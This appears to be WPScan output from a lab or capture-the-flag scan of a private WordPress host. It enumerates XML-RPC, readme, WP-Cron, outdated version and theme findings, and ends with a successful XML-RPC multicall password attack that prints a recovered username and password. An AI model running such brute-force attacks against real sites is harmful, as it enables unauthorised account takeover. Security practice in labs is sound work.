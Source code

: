 ```
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.0.0.48/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.0.0.48/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.30 identified (Outdated, released on 0001-01-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.0.0.48/daf29fc.html, Match: '-release.min.js?ver=4.3.30'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.0.0.48/daf29fc.html, Match: 'WordPress 4.3.30'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.0.0.48/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.0.0.48/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.0.0.48/wp-content/themes/twentyfifteen/style.css?ver=4.3.30
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.0.0.48/wp-content/themes/twentyfifteen/style.css?ver=4.3.30, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                                                                                                                                              
All Found                                                                                                                                                                                                                                   
```